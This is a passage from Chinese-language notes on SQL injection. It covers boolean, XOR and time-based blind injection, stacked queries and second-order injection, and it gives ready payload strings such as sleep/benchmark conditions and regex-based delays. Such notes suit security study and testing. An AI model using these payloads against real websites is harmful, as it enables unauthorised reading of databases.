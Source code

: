 ```
?id=1' and 1=1#		页面返回正常
?id=1' and 1=2#		页面返回不正常
```

- 异或`^`(XOR) - 1^1=0 0^0=0 

0^1=1 1^1^1=0 1^1^0=0   同为0，异为1

```
?id=1^(1=1)^1
?id=1^(ascii(mid(database(),1,1))=98)^1
```

### 基于时间的盲注（time-based blind）

根据页面响应时间判断

`if(ascii(substr(database(),1,1))>100,sleep(1),2=1)`

- `SLEEP(_n_)` - 睡眠n秒
- `BENCHMARK(_count_,_expr_)` - 计算`expr`表达式`count`次，用于测试函数或者表达式的执行速度，返回值都是0，仅仅会执行显示时间
- `笛卡尔积` - 多表查询

```sql
SELECT count(*) FROM information_schema.columns A, information_schema.columns B
```
- `RLIKE` - 利用SQL多次计算正则消耗计算资源产生延时效果，通过`rpad`或`repeat`构造长字符串

```sql
SELECT RPAD('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

## 堆叠注入（Stacked Queries）

一次执行多条SQL语句，每条语句以`;`结尾。比如后端使用`mysqli_multi_query`函数。由于可以执行其他语句，堆叠注入的危害性更大。

```sql
# 列出数据库
SHOW {DATABASES | SCHEMAS};

# 列出表
SHOW TABLES;

# 查看表结构
SHOW COLUMNS from `tbl_name`;
DESC `tbl_name`;
DESCRIBE `tbl_name`;
```

## 二次（阶）注入（Double Order SQLi）

二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入

- [addslashes](https://www.php.net/manual/zh/function.addslashes.php)，仅仅是为了获取插入数据库的数据，**额外的`\`并不会插入**
